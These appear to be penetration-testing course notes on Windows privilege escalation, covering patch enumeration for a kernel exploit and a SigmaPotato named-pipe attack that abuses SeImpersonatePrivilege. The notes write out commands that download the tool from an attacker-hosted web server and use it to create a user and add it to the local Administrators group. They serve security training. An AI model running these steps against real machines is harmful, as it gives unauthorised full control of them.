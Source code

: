 ###### Application Based Vulnerabilities

See Locating Public Exploits module

###### Kernel Vulnerabilities

Can be used for priv esc

Can easily crash a system, so be careful in real-world engagements. 

Demonstration
	Check Privileges
		`whoami /priv`
	Enumerate versions of WIndows
		`systeminfo`
			record the OS version
		`Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }`
			security patches
		Using build version, go to `Microsoft Security Response Center` under Security Vulnerabilities
			we locate public exploit code for CVE-2023-29360
			patch is deployed as KB5027215 which is not present on tatrget
	Compile POC you find
		might need to cross compile based on the system you are using
	Run exploit


###### Abuse Windows Privileges

SeImpersonatePrivilege
	leverage token with another security context
	We will look at this as the example

Others that can be abused `#See HTB for additional references to this`
	SeBackupPrivilege
	SeAssignPrimaryToken
	SeLoadDriver
	SeDebug

Named Pipes
	a method for local or remote inter-process communication
	when a client connects to a named pipe, the server can leverage SeImpersonatePrivilege to impersonate this client after capturing the authentication from the connection process
	We can impersonate the user 


Demonstration
`#SigmaPotato, a variation of potato priv esc to coerce SYSTEM into conencting to a controlled named pipe, and using SeImpersonatePrivilege to execute commands`
	Connect to target
		assumed breach
		`nc 192.168.50.220 4444
	Enumerate privileges
		`whoami /priv`
		SeImpersonatePrivilege
	Download SigmaPotato
		`wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe`
		host
			`python3 -m http.server 80`
	Transfer to target
		PS `iwr -uri http://192.168.48.3/SigmaPotato.exe -OutFile SigmaPotato.exe
	Add user
		`.\SigmaPotato "net user dave4 lab /add"`
		verify
			`net user`
	Add to local admin group
		`.\SigmaPotato "net localgroup Administrators dave4 /add"`
		verify